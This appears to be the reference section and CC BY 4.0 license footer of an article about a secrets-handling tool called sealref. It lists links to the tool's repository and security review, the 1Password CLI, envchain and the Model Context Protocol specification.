- GitHub repository: https://github.com/anhermon/sealref
- SECURITY-REVIEW.md in the repository: https://github.com/anhermon/sealref/blob/main/SECURITY-REVIEW.md
- 1Password CLI `op run` documentation: https://www.1password.dev/cli/reference/commands/run/
- envchain: https://github.com/sorah/envchain
- Model Context Protocol specification: https://modelcontextprotocol.io

---

> © 2026 Author: Mycelium Protocol. Licensed under [CC BY 4.0](https://creativecommons.org/licenses/by/4.0/) — free to share and adapt with attribution. You must credit the author and link to the original; removing attribution and republishing as original is not permitted.
